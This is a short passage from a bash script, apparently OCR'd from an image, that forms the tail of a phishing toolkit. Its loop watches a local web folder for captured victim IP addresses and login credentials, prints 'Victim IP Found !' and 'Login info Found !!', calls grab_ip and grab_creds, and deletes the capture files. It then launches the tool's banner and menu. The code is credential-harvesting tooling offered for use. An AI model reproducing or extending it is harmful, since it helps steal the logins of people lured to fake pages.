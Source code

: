 if [[ -e ".htr/www/ip.txt" ]]; then
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Victim IP Found ! \e[0m\n"
grab_ip
rm -rf .htr/www/ip.txt
fi
sleep 0.75
if [[ -e ".htr/www/usernames.txt" ]]; then
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Login info Found !! \e[0m\n"
grab_creds
rm -rf .htr/www/usernames.txt
fi
sleep 0.75
done 

}


banner
reqs
menu
